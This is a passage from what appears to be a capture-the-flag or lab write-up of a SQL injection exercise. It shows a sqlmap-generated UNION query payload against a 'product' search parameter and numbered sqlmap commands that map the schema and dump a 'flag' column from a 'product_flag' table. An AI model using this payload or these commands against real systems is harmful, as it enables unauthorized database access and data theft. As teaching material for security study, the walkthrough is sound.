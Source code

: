         Type: UNION query
        Title: Generic UNION query (NULL) - 1 column
        Payload: product=' UNION ALL SELECT CHAR(113,112,118,118,113)||CHAR(74,86,115,70,100,106,68,118,113,87,83,120,116,98,70,72,120,79,117,71,104,83,113,102,121,79,102,106,66,78,121,111,111,106,120,68,120,79,99,110)||CHAR(113,98,107,120,113)-- pCbj  


6. Continue mapping the database schema with command: 
```bash 
sqlmap -u http://wasdat.fi/search?product= --schema:
```  

* <img src="../images/was13.png" width="500" />    
7. Based on the schema output: `product_flag` seems to be interesting table.  
8. Reveal the columns of the `product_flag` table with command: 
```bash
sqlmap -u http://wasdat.fi/search?product= -D current_db -T product_flag --columns
```  

9. We get two columns: `flag(varchar)` and `id(integer)`.
10. Lets reveal the content of column `flag` with command 
```
sqlmap -u http://wasdat.fi/search?product= -D current_db -T product_flag -C flag --dump
```  